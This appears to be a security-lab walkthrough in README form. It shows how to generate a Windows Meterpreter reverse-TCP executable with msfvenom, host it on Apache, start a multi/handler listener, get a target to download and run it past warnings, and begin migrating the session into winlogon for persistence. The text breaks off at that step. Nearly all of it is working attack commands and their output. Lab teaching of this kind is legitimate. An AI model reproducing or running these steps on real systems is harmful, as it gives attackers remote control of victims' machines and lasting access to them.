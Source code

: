 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
<img width="814" height="352" alt="image" src="https://github.com/user-attachments/assets/9d4fd0d1-1ae3-4ddf-823f-0b67aca944e7" />



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:

<img width="809" height="470" alt="image" src="https://github.com/user-attachments/assets/3944e022-775a-4180-b151-6e213db23fb3" />


copy the fun.exe into the apache ```/var/www/html ```folder



Start apache server ```sudo systemctl apache2 start``` 



Check the status of apache2 ```sudo apache2 status```


Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="803" height="647" alt="image" src="https://github.com/user-attachments/assets/b9139fcc-d745-41d3-8454-c7e58e08cba7" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

<img width="1081" height="715" alt="image" src="https://github.com/user-attachments/assets/8749fcb5-d817-4e72-bfb7-2c88ec56bfdd" />



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
